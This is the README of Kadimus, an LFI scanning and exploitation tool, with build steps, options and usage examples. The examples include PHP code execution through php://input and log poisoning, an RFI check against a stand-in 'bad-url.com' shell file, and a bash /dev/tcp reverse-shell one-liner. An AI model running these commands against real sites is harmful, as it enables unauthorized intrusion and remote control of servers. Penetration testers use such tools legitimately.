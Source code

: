  [![Rawsec's CyberSecurity Inventory](https://inventory.rawsec.ml/img/badges/Rawsec-inventoried-FF5050_flat.svg)](https://inventory.rawsec.ml/tools.html#Kadimus)
 [![GitHub stars](https://img.shields.io/github/stars/P0cL4bs/Kadimus.svg)](https://github.com/P0cL4bs/Kadimus/stargazers)
 [![GitHub license](https://img.shields.io/github/license/P0cL4bs/Kadimus.svg)](https://github.com/P0cL4bs/Kadimus/blob/master/license.txt)

# Kadimus
LFI Scan &amp; Exploit Tool
--
Kadimus is a tool to check sites to lfi vulnerability , and also exploit it

Features:

- [x] Check all url parameters
- [x] /var/log/auth.log RCE
- [x] /proc/self/environ RCE
- [x] php://input RCE
- [x] data://text RCE
- [x] Source code disclosure
- [x] Multi thread scanner
- [x] Command shell interface through HTTP Request
- [x] Proxy support (socks4://, socks4a://, socks5:// ,socks5h:// and http://)
- [x] Proxy socks5 support for bind connections

## Compile:

```sh
$ git clone https://github.com/P0cL4bs/Kadimus.git
$ cd Kadimus
```

You can run the configure file:

```sh
./configure
```

Or follow this steps:

### Installing libcurl:
* CentOS/Fedora

```sh
# yum install libcurl-devel
```

* Debian based
```sh
# apt-get install libcurl4-openssl-dev
```

* Mac OS X based
```sh
$ brew install openssl
```

### Installing libpcre:
* CentOS/Fedora

```sh
# yum install pcre-devel
```

* Debian based
```sh
# apt-get install libpcre3-dev
```

* Mac OS X based
```sh
$ brew install pcre
```

### Installing libssh:

* CentOS/Fedora

```sh
# yum install libssh-devel
```

* Debian based
```sh
# apt-get install libssh-dev
```

* Mac OS X based
```sh
$ brew install libssh
```

### And finally:
```sh
$ make
```
## Options:
```
  -h, --help                    Display this help menu

  Request:
    -B, --cookie STRING         Set custom HTTP Cookie header
    -A, --user-agent STRING     User-Agent to send to server
    --connect-timeout SECONDS   Maximum time allowed for connection
    --retry-times NUMBER        number of times to retry if connection fails
    --proxy STRING              Proxy to connect, syntax: protocol://hostname:port

  Scanner:
    -u, --url STRING            Single URI to scan
    -U, --url-list FILE         File contains URIs to scan
    -o, --output FILE           File to save output results
    --threads NUMBER            Number of threads (2..1000)

  Explotation:
    -t, --target STRING         Vulnerable Target to exploit
    --injec-at STRING           Parameter name to inject exploit
                                (only need with RCE data and source disclosure)

  RCE:
    -X, --rce-technique=TECH    LFI to RCE technique to use
    -C, --code STRING           Custom PHP code to execute, with php brackets
    -c, --cmd STRING            Execute system command on vulnerable target system
    -s, --shell                 Simple command shell interface through HTTP Request

    -r, --reverse-shell         Try spawn a reverse shell connection.
    -l, --listen NUMBER         port to listen

    -b, --bind-shell            Try connect to a bind-shell
    -i, --connect-to STRING     Ip/Hostname to connect
    -p, --port NUMBER           Port number to connect
    --b-proxy STRING            IP/Hostname of socks5 proxy
    --b-port NUMBER             Port number of socks5 proxy

    --ssh-port NUMBER           Set the SSH Port to try inject command (Default: 22)
    --ssh-target STRING         Set the SSH Host

    RCE Available techniques

      environ                   Try run PHP Code using /proc/self/environ
      input                     Try run PHP Code using php://input
      auth                      Try run PHP Code using /var/log/auth.log
      data                      Try run PHP Code using data://text

    Source Disclosure:
      -G, --get-source          Try get the source files using filter://
      -f, --filename STRING     Set filename to grab source [REQUIRED]
      -O FILE                   Set output file (Default: stdout)
```

## Examples:

### Scanning:
```
./kadimus -u localhost/?pg=contact -A my_user_agent
./kadimus -U url_list.txt --threads 10 --connect-timeout 10 --retry-times 0
```
### Get source code of file:
```
./kadimus -t localhost/?pg=contact -G -f "index.php%00" -O local_output.php --inject-at pg
```
### Execute php code:
```
./kadimus -t localhost/?pg=php://input%00 -C '<?php echo "pwned"; ?>' -X input
```

### Execute command:
```
./kadimus -t localhost/?pg=/var/log/auth.log -X auth -c 'ls -lah' --ssh-target localhost
```
### Checking for RFI:

You can also check for RFI errors, just put the remote url on resource/common_files.txt
and the regex to identify this, example:


```php
/* http://bad-url.com/shell.txt */
<?php echo base64_decode("c2NvcnBpb24gc2F5IGdldCBvdmVyIGhlcmU="); ?>
```

in file:
```
http://bad-url.com/shell.txt?:scorpion say get over here
```

### Reverse shell:
```
./kadimus -t localhost/?pg=contact.php -Xdata --inject-at pg -r -l 12345 -c 'bash -i >& /dev/tcp/127.0.0.1/12345 0>&1' --retry-times 0
```
